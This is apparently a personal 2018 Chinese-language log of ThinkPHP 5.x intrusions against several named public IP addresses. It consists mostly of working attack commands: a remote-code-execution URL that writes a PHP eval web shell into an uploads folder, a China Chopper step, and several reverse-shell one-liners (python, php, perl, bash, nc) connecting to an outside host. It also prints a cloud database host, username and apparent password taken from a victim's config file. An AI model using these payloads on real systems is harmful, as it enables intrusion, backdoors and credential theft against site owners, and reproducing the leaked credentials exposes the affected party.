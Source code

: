```yaml
---
title: tp5.x渗透测试
date: 2018-12-11 19:51:59
tags:
---
```


## 142.93.198.170

1. 写入shell

   ```
   http://142.93.198.170/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20%22%3C%3Fphp%20eval%28%5C%24_POST%5B%27c%27%5D%29%3B%3F%3E%22%20%3E%20./uploads/20180403/error.php
   ```

2. 上菜刀

3. 为了方便敲命令，反弹shell

   ```
   python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('23.106.159.30',80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
   ```

   ```
   php -r '$sock=fsockopen("23.106.159.30",80);exec("/bin/sh -i <&3 >&3 2>&3");'
   ```

   ```
   perl -e 'use Socket;$i="23.106.159.30";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
   ```

   ```
   /bin/bash -i >& /dev/tcp/23.106.159.30/80 0>&1
   ```

   试了好几个，就一个成功:

   ```
   nc -e /bin/bash 23.106.159.30 80
   ```

## 39.106.169.194:8080

## 171.8.71.241:8080

`http://171.8.71.241:8080/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20-l`

1. 写入shell

```
echo%20%22%3C%3Fphp%20eval%28%5C%24_POST%5B%27c%27%5D%29%3B%3F%3E%22%20%3E%20./uploads/admin/avatar/error.php
```

2. 反弹shell

3. 查看database.php

```
rm-2zetn5e59u3ems15qo.mysql.rds.aliyuncs.com
yituwang
nfP46o89r4lD
```

```
/bin/bash -i >& /dev/tcp/142.93.198.170/8900 0>&1 
```

